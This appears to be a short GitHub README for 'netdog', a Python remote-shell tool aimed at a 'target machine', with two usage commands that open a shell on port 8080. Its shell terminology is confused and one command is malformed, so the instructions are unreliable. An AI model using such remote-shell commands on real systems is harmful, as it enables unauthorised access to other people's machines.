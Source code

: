 # netdog
netdog is a python script that contains both a server and client scripts. The server script creates a reverse shell on the target machine and client
script creates a bind shell from the attacking machine.

## Installation
No isntallation is required, just download both client and server scripts. see usage on how to run the scripts.

## Usage
Create a reverse shell on the target machine: netdog.py -t 192.168.8.100 - p 8080
# This creates a reverse shell on the target machine by listening on port 8080
Create a bind shell on the attacking machine: netdog_client.py -192.168.8.100 -p 8080
# This creates a bind shell on attacking machines and gives access on port 8080

##Contribution
Pull requests are welcome. 
